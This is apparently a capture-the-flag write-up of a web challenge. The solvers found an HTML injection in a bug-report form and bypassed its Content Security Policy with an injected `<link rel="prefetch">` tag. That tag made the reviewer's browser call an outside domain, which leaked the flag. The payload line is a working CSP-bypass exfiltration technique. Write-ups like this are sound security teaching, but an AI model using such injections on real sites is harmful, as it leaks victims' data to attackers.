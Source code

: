 ## Bug Bounty (web, 3 points, 45 solves)
	grill the web! http://52.87.183.104:5000/

This task was a bug bounty website. We were able to log in, submit found bugs, and had them
reviewed by website owner. After trying a couple of standard things, we found that our input
for the bug field was not properly sanitized - we could write there `<b>aaa</b>` and it would
be bold. Immediately, we though about XSS possibility. For some reason simple 
`<script>alert(1)</script>` was not working though. Looking at Chrome's console, we found
that the website uses CSP protection, which in this case meant the only JS able to execute
was the whitelisted five scripts. They were of no use for us. 

Googling for ways to bypass the CSP, we found 
[this site](http://blog.sec-consult.com/2013/07/content-security-policy-csp-another.html).
In particular, one of the attacks listed there worked:
```
<link id=1 rel="prefetch" href="http://completely_other_domain.sec-consult.com/steal">
```
This generated a request to our website after a couple seconds from us sending a bug.
When we looked at headers contained within that request, we noticed an interesting
User-Agent header: `BKPCTF{choo choo__here comes the flag}`. :D
